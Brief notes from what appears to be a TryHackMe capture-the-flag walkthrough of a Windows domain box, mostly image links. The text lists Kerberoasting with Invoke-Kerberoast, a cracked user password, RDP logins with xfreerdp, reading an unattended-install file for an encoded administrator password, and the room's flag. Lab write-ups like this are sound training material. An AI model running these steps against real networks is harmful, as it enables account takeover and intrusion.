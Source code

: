 ![[Pasted image 20210601215804.png]]

![[Pasted image 20210601215746.png]]

`Invoke-Kerberoast -OutputFormat hashcat `

![[Pasted image 20210601215626.png]]

cracking the hash

![[Pasted image 20210601215540.png]]

2nd user: `fela:rubenF124`

![[Pasted image 20210601215847.png]]

`xfreerdp /u:'corp\fela' /p:rubenF124 /v:10.10.107.196`

![[Pasted image 20210601232617.png]]

`type C:\Windows\Panther\Unattend\Unattended.xml`

![[Pasted image 20210601235853.png]]

`dHFqSnBFWDlRdjh5YktJM3lIY2M9TCE1ZSghd1c7JFQ=`

`xfreerdp /u:'corp\Administrator' /p:'tqjJpEX9Qv8ybKI3yHcc=L!5e(!wW;$T' /v:10.10.107.196`

and after login you have to change the password with the same complexity 

admin == THM{g00d_j0b_SYS4DM1n_M4s73R}


![[Pasted image 20210601235532.png]]